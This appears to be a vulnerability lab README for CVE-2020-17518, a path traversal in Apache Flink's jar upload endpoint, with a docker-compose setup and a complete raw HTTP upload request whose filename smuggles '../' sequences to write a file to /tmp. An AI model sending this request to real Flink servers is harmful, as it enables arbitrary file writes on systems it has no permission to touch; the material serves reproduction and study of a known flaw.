

# Apache Flink Upload Path Traversal (CVE-2020-17518)

Apache Flink is an open source stream processing framework with powerful stream- and batch-processing capabilities.

Apache Flink 1.5.1 introduced a REST handler that allows you to write an uploaded file to an arbitrary location on the local file system, through a maliciously modified HTTP HEADER.

References:

- https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4
- https://nvd.nist.gov/vuln/detail/CVE-2020-17518

## Environment Setup

Execute following commands to start a Apache Flink jobmanager 1.11.2:

```
docker-compose up -d
```

After the Apache Flink is started, visit `http://your-ip:8081` to view the homepage.

## Exploit

Use following request to upload a file to `/tmp/success`:

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--

```


